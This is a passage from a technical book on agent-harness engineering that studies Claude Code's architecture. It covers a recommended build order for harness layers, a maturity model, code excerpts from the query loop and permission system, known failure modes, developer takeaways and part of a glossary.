The roadmap above assumes you are extending the existing cc codebase. But what if you are building a harness from scratch? The eight layers of the reference architecture (Chapter 55) have a natural implementation order that differs from the numbering order. The correct build sequence is driven by a single heuristic: **implement the layer whose absence causes the most catastrophic failure first**. Here is the ordering, with rationale for each step.

**Layer 1: Query loop and tool dispatch.** Build this first. Without a query loop, nothing runs. The query loop is the irreducible core of any agent harness: it sends a message array to the model, receives a response, checks for tool-use blocks, dispatches each tool call to a handler function, appends the tool results to the message array, and loops until the model emits a stop signal or a turn limit is reached. Implement these pieces: a `messages: Message[]` array that accumulates the conversation, a `callModel(messages)` function that invokes the Anthropic API, a `toolRegistry: Record<string, ToolHandler>` that maps tool names to functions, a response accumulator that appends assistant and tool-result messages, and stop conditions (model says `end_turn`, max turns reached, or a cost limit trips). cc's implementation lives in `src/query/query.ts` -- the `processQueryStream` function at L149-L372 is the canonical reference. A greenfield implementation needs approximately 80 lines to replicate this core loop.

**Layer 2: Session persistence.** Build second. Without persistence, every crash loses all state. An agent that runs for 30 minutes and crashes at minute 29 must restart from zero if the conversation is not persisted. Implement a JSONL conversation log that appends each message as a single JSON line to a file keyed by session ID. On startup, check for an existing log file, replay it into the message array, and resume. cc's implementation lives in `src/persistence/` -- the `saveConversation` and `loadConversation` functions in `src/persistence/conversationPersistence.ts` are the reference. A minimal implementation needs a `sessionId`, a `logPath` derived from it, an `appendMessage(msg)` function that appends to the log, and a `replayLog(logPath)` function that reads the log on startup.

**Layer 4: Back-pressure and cost control.** Build BEFORE Layer 3. This is the deliberate reordering that distinguishes a practical build plan from a theoretical one. At low agent scale (single agent, short sessions), you will hit cost limits before you hit context limits. A 200k-token context window lasts for hours of typical tool use, but an uncapped cost accumulator can burn $50 in 20 minutes of aggressive multi-tool loops. Back-pressure is the first defense that matters in practice. Implement these pieces: a token counter that reads `usage.input_tokens` and `usage.output_tokens` from every API response, a cost accumulator that multiplies token counts by per-model prices, a soft limit that logs a warning (e.g., at 80% of budget), a hard limit that stops dispatching new tool calls, and a kill limit that terminates the session. Optionally, implement a diminishing-returns detector that tracks the ratio of tool calls to meaningful output and flags sessions where the agent is spinning. cc's cost tracking lives in `src/cost-tracker.ts` -- the `addToTotalSessionCost` function at L278 is the accumulator, and `CostState` at L22 is the state shape. A greenfield implementation needs approximately 40 lines for the counter and 10 lines for the gate check in the query loop.

**Layer 3: Context management.** Build fourth. Now that you have persistence and cost control, context overflow is the next bottleneck. When the message array exceeds the model's context window, the API call fails. Implement two mechanisms. First, microcompact: walk the message array and replace old tool-result blocks with a short summary string (e.g., "[tool result truncated]"), preserving the most recent N tool results. This is cheap and deterministic. Second, autocompact: when the token count exceeds a threshold (e.g., 80% of context window), invoke the model with a summarization prompt that compresses the conversation history into a compact summary, then replace the message array with `[system, summary, recent_messages]`. cc's implementation lives in `src/services/compact/` -- the `autoCompact` function in `autoCompact.ts` and the `compactConversation` function in `compact.ts` are the references. Also implement `history_snip` markers: sentinel messages that mark the boundary between compacted history and live conversation, so the model knows which messages are summaries and which are verbatim.

**Layer 5: Tool permission system.** Build fifth. The tool dispatch system exists from Layer 1, but permission checking is a separate concern that should be layered on top. Implement allow/deny rules that specify which tools can run without confirmation, which require user approval, and which are blocked entirely. Implement permission modes: `plan` mode (all tools require approval), `auto` mode (approved tools run freely, others prompt), and `bypass` mode (everything runs, for trusted environments). Wire the permission check as a `PreToolUse` hook that runs before every tool dispatch and returns `allow`, `deny`, or `ask`. cc's implementation lives in `src/permissions/` -- the `checkPermission` function and the `PermissionMode` type are the references. The key insight from cc's design: permission checking is a pipeline of rules evaluated in order, and the first matching rule wins.

**Layer 6: Multi-agent dispatch.** Build sixth. Only after single-agent stability is established. A multi-agent system multiplies every failure mode: cost overruns multiply by agent count, context overflows happen independently in each agent, and permission violations can cascade. Implement an `AgentTool` that the primary agent can invoke to spawn a subagent with its own message array, its own cost cap (derived from the parent's remaining budget), and its own session log. Implement a task list that tracks what each agent is working on. Implement a coordinator pattern where the primary agent dispatches tasks and collects results. Implement fork isolation: each subagent operates on its own copy of state and cannot directly modify the parent's conversation. cc's implementation lives in `src/tools/AgentTool/` and `src/agents/`.

**Layer 7: Observability.** Build seventh. The system is now complex enough that printf debugging is insufficient. Implement structured event logging: every tool dispatch, every model call, every cost checkpoint emits a structured event with a timestamp, a session ID, and a span ID. For multi-agent systems, implement distributed tracing: each subagent carries a trace ID inherited from the parent, so the full causal chain can be reconstructed. Implement a cost display that shows cumulative spend, spend rate, and per-task cost at the end of each session. cc's analytics layer lives in `src/services/analytics/` -- the `AnalyticsSink` type at `src/services/analytics/index.ts:L72` is the reference interface.

**Layer 8: Memory and learning.** Build last. This is the highest-risk, lowest-urgency layer. Memory extraction is inherently lossy (the model decides what to remember), memory injection is inherently risky (stale or wrong memories pollute future sessions), and the ROI is low for short-lived agents. Only invest in memory after the agent runs reliably for hours. Implement session memory extraction: at session end, invoke the model with a summarization prompt that extracts key learnings, file paths, architectural decisions, and error patterns. Write the result to a memory directory as a Markdown file. On the next session start, inject relevant memories into the system prompt. cc's implementation lives in `src/memory/` -- the `extractSessionMemory` function and the `memdir` loader are the references. The key risk: memory injection increases the system prompt size, which reduces the effective context window for the actual task. Budget for this tradeoff.

**Why this order works.** The ordering is driven by blast radius. A missing query loop means nothing runs (total failure). Missing persistence means crashes are catastrophic (data loss). Missing cost control means runaway spend (financial damage). Missing context management means long sessions fail (degraded reliability). Missing permissions means unsafe operations (security risk, but only for tool-using agents). Missing multi-agent means no parallelism (reduced throughput, not failure). Missing observability means blind debugging (developer pain, not user-facing). Missing memory means no cross-session learning (reduced effectiveness, not failure). Each layer addresses a progressively less severe failure mode, which means each layer is safe to defer until the previous layers are stable.

A working TypeScript skeleton implementing Layers 1 and 2 is provided in Appendix I.

# Closing: Lessons for the Harness Engineering Discipline

## Overview

Across fifty-six chapters, this book has traced the architecture of a single production system -- cc, the Claude Code agent -- from its entry point in `src/entrypoints/cli.tsx` through bootstrap, the query loop, tool dispatch, subagent orchestration, memory, compaction, permissions, hooks, skills, MCP, the Ink renderer, long-running work, observability, and security. We have mapped each subsystem to the patterns, failure modes, and best practices identified in the Harness Engineering Report (HER). This closing chapter steps back from the code to ask: what does cc prove, and what does it disprove, about the discipline of harness engineering?

Three answers emerge. First, cc validates the HER thesis that the harness -- not the model -- is the dominant factor in long-running agent reliability. The query loop's compaction hierarchy, the permission system's defense-in-depth, and the task system's durable state management are what make multi-hour sessions viable, not raw model capability. Second, cc demonstrates that production harness engineering is substantially an integration problem, not an algorithms problem. The hardest parts of the codebase are not any single algorithm but the seams between subsystems: the message lifecycle bridging the model and tools, the permission hooks bridging safety and user experience, the session persistence bridging process boundaries. Third, and most humblingly, cc reveals that even the most mature public harness has significant gaps -- in supply-chain defense, in checkpoint-restore safety, in observability for non-deterministic behavior -- that the discipline must address before "launch and trust" becomes a realistic proposition for general-purpose coding agents.

This chapter synthesizes the book's findings into three contributions: a maturity model for the discipline, a set of open research questions drawn from the edge cases and failure modes that cc exposes, and a call to action for the next generation of harness engineers. The synthesis draws on three streams of evidence: the cc source code itself (the concrete), the HER's pattern and failure-mode taxonomy (the theoretical), and the academic research of 2025-2026 (the frontier).

## Data structures and contracts

The discipline of harness engineering does not yet have a formal type system, but we can sketch one from cc's architecture. The fundamental unit is the harness itself -- the outer runtime layer that orchestrates the model's interactions with tools, permissions, hooks, memory, and the user. In cc, the harness is embodied in the query loop, whose imports reveal the three pillars of harness orchestration:

```typescript
// src/query.ts:L1-L6
// The query loop imports types for tool results, streaming events,
// and the canUseTool permission function -- the three pillars of
// harness orchestration: execution, observation, and control
import type {
  ToolResultBlockParam,
  ToolUseBlock,
} from '@anthropic-ai/sdk/resources/index.mjs'
import type { CanUseToolFn } from './hooks/useCanUseTool.js'
```

The `CanUseToolFn` type is the contract between the harness's safety layer and the execution engine. Every tool call passes through this gate, and the harness's reliability depends on it being invoked correctly at every dispatch point. This is the single most important contract in the entire system: if a tool call bypasses `canUseTool`, the permission model is void. The harness literature (NLAH, HER Section 15.1) calls this an "Adapter" -- a deterministic hook that mediates between the probabilistic model and the deterministic world. cc implements this adapter as a React hook (`useCanUseTool.tsx`), which is an unusual but effective choice: the hook's reactivity model ensures that permission state changes propagate immediately through the UI.

The tool interface itself defines the schema-validated contract between the model and the outside world:

```typescript
// src/Tool.ts:L15-L21
export type ToolInputJSONSchema = {
  [x: string]: unknown
  type: 'object'
  properties?: {
    [x: string]: unknown
  }
}
```

This sparse type belies the complexity beneath. Each concrete tool implements a `call()` method, a Zod schema for input validation, concurrency flags, and max-result-size constraints. The harness's job is to enforce these contracts at runtime, even when the model produces malformed tool calls or attempts operations outside its declared schema. The NLAH paper formalizes this as "Contracts" -- explicit I/O constraints that define what a tool can receive and produce. cc's Zod-based validation serves the same purpose, but without the formality: there is no separate contract layer that can be inspected or verified independently of the tool implementation.

The permission mode type defines the operational regime of the harness:

```typescript
// src/types/permissions.ts:L16-L29
export const EXTERNAL_PERMISSION_MODES = [
  'acceptEdits',
  'bypassPermissions',
  'default',
  'dontAsk',
  'plan',
] as const

export type ExternalPermissionMode = (typeof EXTERNAL_PERMISSION_MODES)[number]

// Exhaustive mode union for typechecking. The user-addressable runtime set
// is INTERNAL_PERMISSION_MODES below.
export type InternalPermissionMode = ExternalPermissionMode | 'auto' | 'bubble'
export type PermissionMode = InternalPermissionMode
```

The definition reveals the internal structure: five external modes available to all users, plus `auto` and `bubble` gated behind feature flags. These six modes span a privilege spectrum from fully restricted (plan, read-only) to fully unrestricted (bypassPermissions). The existence of this spectrum is itself a design lesson: a binary allow/deny model is insufficient for a long-running agent that must operate across different trust contexts within a single session. The `auto` mode, in particular, represents a significant architectural commitment -- it delegates trust decisions to the YOLO classifier (1,495 lines in `yoloClassifier.ts`), which means that a production harness must be prepared for the case where its own safety automation makes incorrect decisions.

The ablation baseline gate in cc's entry point demonstrates an often-overlooked contract: the one between the harness and its own feature flags. When `ABLATION_BASELINE` is enabled, cc strips away thinking, compaction, auto-memory, and background tasks:

```typescript
// src/entrypoints/cli.tsx:L16-L26
// Harness-science L0 ablation baseline. Inlined here (not init.ts) because
// BashTool/AgentTool/PowerShellTool capture DISABLE_BACKGROUND_TASKS into
// module-level consts at import time — init() runs too late. feature() gate
// DCEs this entire block from external builds.
if (feature('ABLATION_BASELINE') && process.env.CLAUDE_CODE_ABLATION_BASELINE) {
  for (const k of ['CLAUDE_CODE_SIMPLE', 'CLAUDE_CODE_DISABLE_THINKING',
    'DISABLE_INTERLEAVED_THINKING', 'DISABLE_COMPACT', 'DISABLE_AUTO_COMPACT',
    'CLAUDE_CODE_DISABLE_AUTO_MEMORY', 'CLAUDE_CODE_DISABLE_BACKGROUND_TASKS']) {
    process.env[k] ??= '1';
  }
}
```

This ablation gate is a research tool, not a production feature -- but it reveals a deep truth about the harness: every capability it adds (thinking, compaction, memory, background tasks) is a potential source of failure, and the ablation baseline provides a way to measure the net benefit of each capability in isolation. The gate's placement in `cli.tsx` rather than `init.ts` is deliberate: as the comment at `src/entrypoints/cli.tsx:L16-L18` explains, the environment variables must be set before module imports resolve, because tools like BashTool and AgentTool capture `DISABLE_BACKGROUND_TASKS` into module-level constants at import time. The discipline should adopt this approach systematically: every harness feature should have a kill switch and a measured contribution to overall reliability.

## Control flow

The discipline of harness engineering, as observed through cc, follows a maturity trajectory from ad-hoc scripting to systematic engineering. We can model this trajectory as five levels:

```mermaid
flowchart TD
    L1["Level 1: Prompt Loop<br/>Model + bash script<br/>~10 lines"]
    L2["Level 2: Guardrailed Loop<br/>Model + tools + permissions<br/>~100s of lines"]
    L3["Level 3: Stateful Harness<br/>Model + tools + permissions<br/>+ memory + compaction<br/>~1000s of lines"]
    L4["Level 4: Multi-Agent Orchestration<br/>L3 + subagents + tasks<br/>+ coordination<br/>~10,000s of lines"]
    L5["Level 5: Self-Optimizing Harness<br/>L4 + meta-harness<br/>+ auto-constraint<br/>+ A/B testing<br/>Aspirational"]

    L1 --> L2
    L2 --> L3
    L3 --> L4
    L4 --> L5

    style L1 fill:#f9f,stroke:#333
    style L2 fill:#bbf,stroke:#333
    style L3 fill:#bfb,stroke:#333
    style L4 fill:#fbf,stroke:#333
    style L5 fill:#fbb,stroke:#333
```

The query loop's import table illustrates how cc spans these levels in a single file:

```typescript
// src/query.ts:L1-L20
import type {
  ToolResultBlockParam,
  ToolUseBlock,
} from '@anthropic-ai/sdk/resources/index.mjs'
import type { CanUseToolFn } from './hooks/useCanUseTool.js'
import { FallbackTriggeredError } from './services/api/withRetry.js'
import {
  calculateTokenWarningState,
  isAutoCompactEnabled,
  type AutoCompactTrackingState,
} from './services/compact/autoCompact.js'
import { buildPostCompactMessages } from './services/compact/compact.js'
const reactiveCompact = feature('REACTIVE_COMPACT')
  ? (require('./services/compact/reactiveCompact.js') as typeof import('./services/compact/reactiveCompact.js'))
  : null
const contextCollapse = feature('CONTEXT_COLLAPSE')
  ? (require('./services/contextCollapse/index.js') as typeof import('./services/contextCollapse/index.js'))
  : null
```

The `CanUseToolFn` import is the Level 2 gate. The compact and autocompact imports are the Level 3 state management. The feature-gated `require` calls show how cc conditionally activates subsystems, keeping the core loop lean while allowing higher-maturity capabilities to be loaded when needed.

At Level 1, a harness is a simple loop: send a prompt to the model, execute the tool call, feed the result back. Ralph's bash loop (cited in HER Section 18.7) and Simon Willison's observation that "a coding agent is fundamentally a few dozen lines of code" both describe this level. cc's entry point still contains traces of this simplicity -- the `--version` fast path in `src/entrypoints/cli.tsx:L37-L41` exits before loading any modules, and the ablation baseline reduces the entire harness to something approaching Level 1.

At Level 2, the harness adds permissions and tool schemas. cc's `Tool.ts` type system and the `CanUseToolFn` gate represent this level. The harness can now say "no" to the model, which transforms the relationship from delegation to negotiation. This is also the level where the discipline's terminology begins to matter: HER's distinction between "computational" tools (deterministic, like file read) and "inferential" tools (probabilistic, like web search) maps to cc's read/write classification in the BashTool's permission system. A Level 2 harness must classify tools by risk, but it does not yet need to manage the state that accumulates across many tool calls.

At Level 3, the harness adds state management: memory (memdir), compaction (the five-stage hierarchy), and session persistence (JSONL). This is the level where cc becomes viable for multi-hour tasks. The compaction hierarchy is the clearest marker of Level 3 maturity -- a Level 2 harness crashes ungracefully when it runs out of context; a Level 3 harness degrades gracefully. The microcompact pass trims tool results without model invocation (`microCompact.ts`, 530 lines); the context collapse aggressively summarizes the full conversation (`compact.ts`, 1,705 lines); the autocompact fires automatically when context approaches capacity (`autoCompact.ts`, 351 lines). Each stage preserves different amounts of information, and the harness must choose correctly which stage to invoke based on the current state of the conversation.

At Level 4, the harness orchestrates multiple agents: sync subagents, forked subagents, remote CCR agents, coordinator-based teams. cc's `AgentTool` (1,397 lines), `coordinatorMode.ts` (369 lines), and the task system represent this level. The generator-evaluator pattern (HER Section 9.2) lives here, and with it comes the Ouroboros problem: when both generator and evaluator are LLMs, who validates the validator? The discipline has no satisfying answer to this question yet. The NLAH ablation shows that adding a verifier can produce negative results (-0.8% on SWE-bench), and multi-candidate search can also degrade performance (-2.4%). Level 4 is where the discipline's limits become visible.

At Level 5, the harness optimizes itself. The Meta-Harness paper (HER Section 15.2) demonstrates that harness configurations can be systematically optimized rather than hand-tuned, achieving +7.7 points over SOTA with 4x fewer tokens. AutoHarness (HER Section 15.3) shows that smaller models with synthesized harnesses can outperform larger models without them. cc has no Level 5 capability today -- there is no A/B testing of harness configurations, no automated constraint generation, no self-evolution of prompt templates. This is the frontier.

The timeline of the discipline's evolution can be mapped against these levels:

```mermaid
flowchart LR
    subgraph 2023["2023"]
        A["Prompt engineering<br/>Level 1 dominant"]
    end
    subgraph 2024["2024"]
        B["Tool-use agents<br/>Level 2 mainstream<br/>Level 3 emerging"]
    end
    subgraph 2025["2025"]
        C["Long-running agents<br/>Level 3 mainstream<br/>Level 4 emerging<br/>METR: task duration<br/>doubles every ~7 months"]
    end
    subgraph 2026["2026"]
        D["Multi-agent systems<br/>Level 4 mainstream<br/>Level 5 research<br/>NLAH, Meta-Harness,<br/>AutoHarness, ACRFence"]
    end

    A --> B --> C --> D
```

This timeline is approximate, but it captures a real acceleration. The METR data (HER Section 10.2) shows that AI task duration doubles every ~7 months, with the updated Time Horizon 1.1 model suggesting the rate has accelerated to ~4.3 months. Toby Ord's analysis (arXiv:2505.05115, May 2025) found that AI agent failure follows a constant hazard rate analogous to radioactive decay, with Claude 3.7 Sonnet achieving 50% success on tasks up to 59 minutes but requiring tasks under 15 minutes for 80% success. This capability growth drives demand for higher-maturity harnesses: as models can handle longer tasks, the harness must manage proportionally more state, more failure modes, and more security threats.

The core control flow insight from cc is that the query loop is not a simple request-response cycle. It is an event-driven state machine with multiple interruption points, compaction triggers, and permission gates. The loop must handle:

1. Model streaming (partial responses that may contain tool calls)
2. Tool dispatch (which may be deferred, parallelized for read-only tools, or serialized for write tools)
3. Compaction triggers (microcompact, context collapse, autocompact)
4. Permission decisions (which may require user interaction)
5. Session persistence (JSONL writes after every significant state change)
6. Graceful shutdown (signal handlers that preserve state)

Each of these concerns is itself a state machine, and the harness must compose them correctly. The `queryLoop` function signature reveals the composition: the outer `query()` generator wraps `queryLoop()`, consuming command UUIDs on normal exit but propagating errors and early returns through `yield*`:

```typescript
// src/query.ts:L219-L239
export async function* query(
  params: QueryParams,
): AsyncGenerator<
  | StreamEvent
  | RequestStartEvent
  | Message
  | TombstoneMessage
  | ToolUseSummaryMessage,
  Terminal
> {
  const consumedCommandUuids: string[] = []
  const terminal = yield* queryLoop(params, consumedCommandUuids)
  // Only reached if queryLoop returned normally. Skipped on throw (error
  // propagates through yield*) and on .return() (Return completion closes
  // both generators). This gives the same asymmetric started-without-completed
  // signal as print.ts's drainCommandQueue when the turn fails.
  for (const uuid of consumedCommandUuids) {
    notifyCommandLifecycle(uuid, 'completed')
  }
  return terminal
}
```

Inside `queryLoop`, mutable state is destructured at the top of each iteration and reassigned at each `continue` site -- the "state destructuring pattern" that makes state transitions explicit and testable:

```typescript
// src/query.ts:L265-L279
  // Mutable cross-iteration state. The loop body destructures this at the top
  // of each iteration so reads stay bare-name (`messages`, `toolUseContext`).
  // Continue sites write `state = { ... }` instead of 9 separate assignments.
  let state: State = {
    messages: params.messages,
    toolUseContext: params.toolUseContext,
    maxOutputTokensOverride: params.maxOutputTokensOverride,
    autoCompactTracking: undefined,
    stopHookActive: undefined,
    maxOutputTokensRecoveryCount: 0,
    hasAttemptedReactiveCompact: false,
    turnCount: 1,
    pendingToolUseSummary: undefined,
    transition: undefined,
  }
```

The `query.ts` file, at 1,729 lines, is the orchestration point -- but the actual logic is distributed across `compact.ts` (1,705 lines), `toolExecution.ts` (1,745 lines), `messages.ts` (5,512 lines), and `sessionStorage.ts` (5,105 lines). The total code dedicated to the harness (as opposed to individual tools) exceeds 30,000 lines. This is not a bash loop.

## Edge cases and failure modes

The discipline of harness engineering must confront several edge cases that cc's architecture reveals but does not fully solve.

**The Ouroboros Problem.** When both generator and evaluator are LLMs, who validates the validator? HER Section 18.2 identifies this as a fundamental limitation. cc's generator-evaluator pattern (coordinator mode) uses LLM evaluators, but the NLAH ablation (HER Section 15.1) shows that adding a verifier can produce negative results (-0.8% on SWE-bench). An LLM evaluator can hallucinate approval just as easily as a generator can hallucinate success. The strongest evaluators are deterministic: test suites, type checkers, linters. cc's LSP integration (Chapter 15) provides one such deterministic evaluator, but it is underutilized in the evaluation pipeline. The discipline should prioritize deterministic verification wherever possible and reserve LLM evaluation for judgments that deterministic tools cannot make. The NLAH finding that "more structure doesn't automatically improve performance when intermediate acceptance criteria diverge from final benchmarks" is a crucial cautionary result: adding verification layers can make things worse if the verifier's notion of quality does not align with the actual success metric.

**The Stone Soup Attribution Problem.** HER Section 18.3, citing Benjamin Riley and Alison Gopnik, warns that massive human labor gets misattributed to AI capability. OpenAI's "~1M lines, zero manually written" is technically true but obscures the human engineering effort that made it possible. Huntley's own caveat -- "There is no way this is possible without senior expertise guiding Ralph" -- is the honest version. cc's `CLAUDE.md` system, the settings cascade, the managed settings for enterprise, and the permission rules all require human authoring and maintenance. The harness does not eliminate human effort; it concentrates it into specification and monitoring rather than execution. The discipline must be honest about this: a "self-driving" agent still requires a human at the steering wheel, even if that human's role is primarily to set guardrails and respond to escalations.

**The Greenfield Bias.** HER Section 18.5 notes that many impressive agent results come from greenfield projects. Huntley explicitly states: "There's no way in heck would I use Ralph in an existing code base." cc is designed for both greenfield and brownfield work, but the brownfield case is fundamentally harder. The agent must understand existing architecture it did not create, tests may be incomplete or absent, modifications must respect implicit conventions not captured in any document, and the risk of breaking existing functionality is much higher. The LSP integration helps, but there is no substitute for the domain knowledge that a senior developer brings to a legacy codebase. The discipline must develop techniques for injecting domain knowledge into the harness -- not through increasingly verbose context files (which the ETH Zurich study shows can reduce performance), but through structural mechanisms like typed interfaces, architectural decision records, and automated convention detection.

**The Compound Failure Problem.** METR's data (HER Section 10.2) shows that 95% per-step reliability yields only 36% reliability over 20 steps. Doubling task duration quadruples the failure rate. For a multi-hour task with hundreds of tool calls, the compound failure rate is severe. cc's compaction hierarchy and session persistence address this indirectly -- by enabling task decomposition and state handoffs -- but the fundamental math remains: long tasks require either extremely high per-step reliability or mechanisms for detecting and recovering from partial failures. The ACRFence paper (HER Section 15.6) identifies a specific instance of this problem in checkpoint-restore: agents re-synthesize subtly different requests after restore, leading to Action Replay (replaying completed actions) and Authority Resurrection (reusing expired credentials) attacks. cc has no defense against these attack classes. The discipline must develop idempotency keys for external operations and replay-or-fork semantics for checkpoint-restore, or the compound failure problem will limit agent reliability to tasks of modest duration.

**The Scale Confusion.** HER Section 18.7 warns that the literature conflates harnesses operating at very different scales. A Ralph-style bash loop (~10 lines), a generator-evaluator system (~100s of lines), a full orchestration framework (~1000s of lines), and the eight-layer reference architecture (aspirational) are qualitatively different systems, not points on a single continuum. cc, at ~30,000+ harness lines, occupies the upper end of the full orchestration scale. The discipline must develop vocabulary that distinguishes these scales clearly, or practitioners will over-engineer simple problems and under-engineer complex ones. The maturity model proposed in this chapter's Control Flow section is a starting point.

**The Limited Applicability Beyond Coding.** HER Section 18.4 notes that coding is the ideal domain for harness engineering because of the deterministic-probabilistic pairing: write code (probabilistic), run compiler/tests (deterministic), iterate. Most human activities do not have this structure. The patterns in the HER should not be assumed to generalize to domains lacking strong deterministic verification (creative writing, strategic planning, research synthesis). cc's architecture is deeply optimized for the coding domain; its tool system, its LSP integration, its file-edit semantics, and its test-running conventions all assume that the agent is modifying code that can be compiled and tested. The discipline should be explicit about the domain-specificity of its patterns.

## Where cc diverges from the published pattern

cc diverges from the HER's idealized harness architecture in several instructive ways.

**Incremental security, not designed-in security.** HER Section 12 describes a five-layer defense-in-depth model. cc implements all five layers, but the depth of coverage varies dramatically. The runtime approval layer (permissions, classifiers) is the most mature, with over 11,000 lines of code across the permissions module alone. The supply-chain layer is the thinnest: MCP servers can execute arbitrary code, and cc relies on social controls (vetting, user review) rather than technical enforcement. This is characteristic of security that has been built incrementally in response to specific incidents, rather than designed holistically from a threat model. The discipline should treat cc's uneven coverage as a cautionary tale: security-by-accretion leaves gaps that are hard to see until they are exploited. The OpenClaw incident (CVE-2025-53773, CVSS 9.6), which affected 21,000 exposed instances of an open-source agent framework, demonstrates that tool interfaces are attack surfaces, and the combination of prompt injection and tool execution creates compound risk.

**Observability as an afterthought.** HER Section 14 describes three pillars of observability: logs, metrics, and traces. cc has the first two (debug logging via `debug.ts`, analytics events via `analytics/index.ts`, cost tracking via `cost-tracker.ts`) but lacks the third. There is no distributed tracing of a tool call from model request through dispatch, execution, and result return. The `toolUseSummary` system provides a partial approximation, but it is not a trace. For multi-hour sessions with hundreds of tool calls, the absence of tracing makes debugging extremely difficult. The discipline should adopt OpenTelemetry or equivalent from the start, not retrofit it later. HER Section 14.2 identifies the observability gap as a specific risk: without tracing, the harness cannot distinguish between a model that is performing well and a model that is performing poorly but being rescued by compaction.

**No formal verification of harness invariants.** cc has no mechanism for verifying that the harness itself behaves correctly. There are no property-based tests of the compaction hierarchy's preservation guarantees, no formal model of the permission system's safety properties, no invariant checking across session boundaries. The NLAH paper's concept of "Contracts" -- explicit I/O constraints that can be verified -- points toward a solution, but cc has nothing equivalent. The discipline should treat harness correctness as a verification problem, not just a testing problem. The capability-reliability gap identified in the Agent Reliability Science paper (HER Section 15.5) -- models get smarter but not necessarily more consistent -- means that the harness's correctness guarantees become more important as model capability increases, not less.

**Context files that reduce performance.** The ETH Zurich study (HER Section 15.7) found that context files tend to reduce task success rates compared to providing no repository context, while increasing inference cost by over 20%. This applies to both LLM-generated and developer-committed context files. cc's `CLAUDE.md` system is precisely the kind of context file this study examined. The recommendation to describe only "minimal requirements" is a direct challenge to cc's approach of loading increasingly detailed instructions from the settings cascade (org, user, project, directory, environment, flags). The discipline must develop a science of context file sizing and content selection, rather than treating more context as universally beneficial. The Meta-Harness paper's finding that harness configurations can be optimized automatically (+7.7 points with 4x fewer tokens) suggests that context file optimization may be amenable to automated search rather than manual tuning.

## Developer takeaways for building a long-running agent

**1. The harness is the product.** AutoHarness (HER Section 15.3) validates this: a smaller model with a synthesized harness outperformed a larger model without one.

**2. Right-size your tasks.** Target 15-30 minutes per agent session. Multi-hour work must decompose into shorter sessions with state handoffs.

**3. Deterministic verification beats LLM verification.** The NLAH ablation shows LLM evaluators can produce negative results (-0.8% on SWE-bench). Use test suites and linters first.

**4. Security must be designed in, not bolted on.** Build your threat model first. Every tool interface is an attack surface.

**5. Observability is not optional.** Without distributed tracing, debugging multi-hour sessions with hundreds of tool calls is impossible. Adopt OpenTelemetry from day one.

**6. More structure is not always better.** The NLAH ablation found multi-candidate search produced -2.4% on SWE-bench. Treat harness structure as a hypothesis to test, not an axiom.

**7. The discipline is young.** Build modular, replaceable harnesses: today's best practices may be tomorrow's anti-patterns.

cc is the most mature public long-running agent harness -- and a work in progress. The gaps in supply-chain defense, checkpoint-restore safety, observability, and formal verification are the natural consequence of building at the frontier of a discipline that did not exist three years ago. The next step is to move from pattern catalogs to formal methods, from anecdotal evidence to systematic measurement, and from artisanal construction to engineered, verified, self-optimizing systems. That transition starts now.
# Glossary

**ablation baseline** -- A testing mode enabled by the ABLATION_BASELINE feature flag that disables thinking, compaction, auto-memory, and background tasks for controlled comparison experiments. This baseline isolates the model's raw performance from harness-level interventions, enabling researchers to measure the marginal contribution of each subsystem. (src/entrypoints/cli.tsx)

**agent definition** -- A typed configuration object (built-in, custom, or plugin variant) that specifies an agent's tools, permissions, model, memory scope, and system prompt, discovered from multiple sources with layered precedence. Agent definitions are the declarative configuration surface that controls how subagents behave when spawned by the parent. (src/tools/AgentTool/)

**agent discovery** -- The process of loading agent definitions from multiple sources (built-in, plugin, user, project, flag, policy) with later sources overriding earlier ones for the same agentType. Discovery implements the HER principle of layered configuration, where more specific sources take precedence over general ones. (src/tools/AgentTool/loadAgentsDir.ts)

**agent name registry** -- A Map in AppState that maps agent names to their task IDs, enabling SendMessageTool to address teammates by human-readable name rather than by task ID. The name registry provides an ergonomic abstraction over the raw task ID namespace. (src/state/AppState.tsx)

**analytics sink** -- The backend interface (AnalyticsSink) that receives queued analytics events after attachment, implementing logEvent and logEventAsync methods for fanout to Datadog and first-party logging. The sink abstraction decouples event generation from event delivery, enabling buffering during startup. (src/services/analytics/)

**async rewake** -- A flag on command hooks that causes the hook to run in the background and wake the model if it exits with code 2, enabling blocking-error detection for long-running background tasks. Async rewake bridges the gap between asynchronous hook execution and synchronous model response expectations. (src/schemas/hooks.ts)

**auto-resume on send** -- The pattern where SendMessage attempts resumeAgentBackground() when targeting a stopped agent, restarting it with the incoming message as prompt. Auto-resume ensures that messages sent to idle teammates are not lost, instead triggering the teammate to resume processing. (src/tools/SendMessageTool/)

**backfillObservableInput** -- A method that injects derived fields (e.g., expanded file paths) into a shallow clone of the tool input for hooks and permission checks, without modifying the original input passed to call(). Backfilling ensures that hooks and permission checks see resolved paths while the tool receives the raw input from the model. (src/services/tools/)

**batched connection processing** -- The startup pattern of connecting to MCP servers in parallel groups partitioned by transport type (local vs remote) with different concurrency limits. Batched processing prevents slow remote servers from blocking fast local server connections, optimizing startup time. (src/services/mcp/)

**beta header latching** -- The pattern where an API beta header stays enabled for the rest of a session once activated, preventing prompt cache invalidation from feature toggles. Beta header latching is a cache optimization that avoids the cost of cache breaks caused by mid-session feature flag changes. (src/services/api/claude.ts)

**bridge safety predicate** -- The isBridgeSafeCommand function that classifies commands into three tiers (prompt=safe, local-jsx=blocked, local=allowlist) for remote execution authorization. The safety predicate prevents remote clients from executing arbitrary code through the bridge transport. (src/bridge/)

**BufferedWriter** -- A write abstraction supporting immediate (synchronous) and buffered (asynchronous with periodic flush) modes, used by the debug logging system to balance crash safety against performance. BufferedWriter enables the debug system to switch between guaranteed-crash-survival mode and high-throughput buffered mode. (src/utils/debug.ts)

**bundled mode** -- The runtime state where cc executes as a Bun-compiled standalone executable, detected via Bun.embeddedFiles, which changes settings loading, update handling, and feature availability. Bundled mode enables single-binary distribution without requiring users to install Bun or Node.js. (src/utils/bundledMode.ts)

**bypass-immune** -- A property of safety checks that prevents them from being overridden by bypassPermissions mode, auto mode classifiers, or PreToolUse hook approvals, ensuring that critical security boundaries cannot be circumvented. Bypass-immunity is the highest enforcement level in the permission hierarchy. (src/utils/permissions/)

**capacity wake signal** -- A signaling mechanism that wakes the work-polling loop immediately when a session completes, reducing latency between session completion and new work assignment from the polling interval to near-zero. Capacity wake signals implement an event-driven alternative to polling for multi-agent task allocation. (src/bridge/)

**character interning** -- The optimization pattern in terminal rendering where unique characters are stored once in a pool and referenced by integer ID, enabling diff operations to compare IDs instead of strings. Character interning reduces memory allocation and comparison cost in the terminal renderer. (src/ink/screen.ts)

